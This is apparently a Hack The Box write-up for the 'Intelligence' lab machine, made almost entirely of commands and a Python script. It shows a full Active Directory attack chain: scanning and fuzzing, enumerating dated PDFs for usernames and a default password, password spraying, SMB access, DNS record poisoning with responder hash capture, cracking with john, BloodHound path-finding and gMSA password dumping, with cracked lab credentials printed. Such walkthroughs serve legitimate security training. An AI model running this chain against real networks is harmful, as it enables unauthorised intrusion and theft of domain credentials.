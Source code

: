 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.248
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6413486e-f42a-43a5-b969-237d18b6e161)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.248/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/96991ceb-dfba-48ae-a7ad-6399ba07a2ed)

```
wget http://10.10.10.248/documents/2020-01-01-upload.pdf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/bdc6e7f4-18d2-448d-95b8-1531c66d373e)

```
exiftool 2020-01-01-upload.pdf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/44a19195-37c8-4deb-b3ed-b2c660206718)

```
curl http://10.10.10.248/documents/2020-01-01-upload.pdf --output 2020-01-01-upload.pdf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/b57f601a-2f11-4db5-ac20-830bd9527e7f)

```
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
chmod +x kerbrute_linux_amd64
./kerbrute_linux_amd64 userenum --dc 10.10.10.248 -d intelligence.htb users
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4efd407f-9ea1-4de4-9387-ba3ea918ac6d)

```
#!/usr/bin/env python3

import datetime
import requests


t = datetime.datetime(2020, 1, 1)  
end = datetime.datetime(2021, 7, 4) 

while True:
    url = t.strftime("http://intelligence.htb/documents/%Y-%m-%d-upload.pdf")  
    resp = requests.get(url)
    if resp.status_code == 200:
        print(url)
    t = t + datetime.timedelta(days=1)
    if t >= end:
        break
```
```
python3 findpdfs.py
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0a43ff18-7da3-413d-8e83-ef4b8c33c978)

![image](https://github.com/regarmulia/HTB/assets/33616880/5cef87be-c746-4a4f-87d4-f5d4d5f95f63)

```
wget -i pdfsurl
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5def43cf-a8a4-43a7-b66b-9ba62c4fb63d)

```
exiftool *upload.pdf | grep Creator | sort –u
exiftool *upload.pdf | grep Creator | awk -F': ' '{print $2}' | sort -u
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c455f320-d1a8-4227-8fb2-c7a237733da9)

![image](https://github.com/regarmulia/HTB/assets/33616880/447f7d52-ef55-4f5b-9ef1-97e4df35eca7)

```
for f in *pdf; do pdftotext $f; done
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9ed0481f-90bf-425a-b359-7ec3b702c948)

```
head -n1 *txt
NewIntelligenceCorpUser9876
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7470bba3-1f65-4360-90db-2d353f91365c)

![image](https://github.com/regarmulia/HTB/assets/33616880/1274008a-d8b3-475d-acb1-af86b0b1f8b4)

```
cat *txt > all.txt
nano all.txt; ctrl+w password
```
![image](https://github.com/regarmulia/HTB/assets/33616880/20edb4ef-02e1-4a33-9a2f-9386d399c602)

```
crackmapexec smb 10.10.10.248 -u users -p NewIntelligenceCorpUser9876
```
![image](https://github.com/regarmulia/HTB/assets/33616880/af9cb0b4-8e06-42ea-96e3-366f913af48a)

```
smbclient -L \\\\10.10.10.248\\ -U intelligence.htb/Tiffany.Molina
smbclient \\\\10.10.10.248\\Users -U intelligence.htb/Tiffany.Molina
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3b60eb9f-aaee-4da9-8639-382181585649)

![image](https://github.com/regarmulia/HTB/assets/33616880/972a6c20-fa6e-4693-9782-b904c13b384c)

```
smbclient \\\\10.10.10.248\\IT -U intelligence.htb/Tiffany.Molina
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d81005aa-6f13-4698-941d-57d3de9a0095)

![image](https://github.com/regarmulia/HTB/assets/33616880/c6526640-fcd1-4dd6-9486-20c982b8e738)

```
https://github.com/dirkjanm/krbrelayx
./dnstool.py -u 'intelligence\Tiffany.Molina' -p NewIntelligenceCorpUser9876 10.10.10.248 -a add -r web1 -d 10.10.14.20 -t A
responder -I tun0
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5fc68265-dab2-4817-972b-3c52bc647e63)

![image](https://github.com/regarmulia/HTB/assets/33616880/0915f164-fa0e-4265-b707-cd6e4c2ba008)

```
john hash -w=/usr/share/wordlists/rockyou.txt
Ted.Graves | Mr.Teddy
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9652e79f-8d7d-4049-b812-64cf935c500c)

![image](https://github.com/regarmulia/HTB/assets/33616880/95066406-d2c7-472f-a0dd-0dd7827689cb)

```
sudo apt install bloodhound
neo4j console
```
![image](https://github.com/regarmulia/HTB/assets/33616880/49cb9f67-4bbf-4794-9cbd-2087b07b71e8)

![image](https://github.com/regarmulia/HTB/assets/33616880/eb604014-04eb-40b0-9659-e440e903fade)

```
git clone https://github.com/fox-it/BloodHound.py.git
cd BloodHound.py
python3 setup.py install
python3 bloodhound.py -d intelligence.htb -u Ted.Graves -p Mr.Teddy -ns 10.10.10.248 -c All
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1e1237c4-76e0-4a83-be86-647b7fe2415e)

```
Mark User as owned; Shortest Paths to Domain Admins from Owned Principals
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d5908444-3e56-441e-8d15-d97bcdaa4232)

```
git clone https://github.com/micahvandeusen/gMSADumper
python gMSADumper/gMSADumper.py -u Ted.Graves -p Mr.Teddy -d intelligence.htb -l 10.10.10.248
```
![image](https://github.com/regarmulia/HTB/assets/33616880/e55febe9-ae9e-44b8-abfb-3943221b8723)
